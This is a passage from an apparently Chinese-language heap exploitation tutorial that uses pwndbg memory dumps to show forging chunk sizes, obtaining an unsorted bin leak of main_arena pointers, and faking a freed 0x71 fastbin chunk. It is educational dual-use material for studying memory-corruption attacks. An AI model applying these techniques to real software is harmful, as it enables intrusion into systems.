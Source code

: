 伪造 chunk size

```bash
pwndbg>
0x555555757050: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757060: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757070: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757080: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757090: 0x41414141      0x41414141      0x61    0x0     <----------
```

这里，我们 free 掉 chunk 1，这个时候我们能获得一个 unsortbin

```
0x555555757020 PREV_INUSE {
  prev_size = 0x0,
  size = 0xd1,
  fd = 0x7ffff7dd1b58 <main_arena+88>,
  bk = 0x7ffff7dd1b58 <main_arena+88>,
  fd_nextsize = 0x4141414141414141,
  bk_nextsize = 0x4141414141414141
}
```

接着，我们重分配 0xd1 这块 chunk，以及修改其 size 为0x71

```
pwndbg> x/40ag 0x555555757020
0x555555757020: 0x4141414141414141      0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
```



我们紧接着需要修正这0x71 FD freelist ，将其伪造成已经释放的块

```
pwndbg> x/40ag 0x555555757000
0x555555757000: 0x0     0x21
0x555555757010: 0x4141414141414141      0x4141414141414141
0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
0x5555557570a0: 0x0     0x0
0x5555557570b0: 0x0     0x0
0x5555557570c0: 0x0     0x0
0x5555557570d0: 0x0     0x0
0x5555557570e0: 0x0     0x0
0x5555557570f0: 0xd0    0x71   <----------     free 0x71
0x555555757100: 0x0     0x0
0x555555757110: 0x0     0x0
0x555555757120: 0x0     0x0
0x555555757130: 0x0     0x0

```
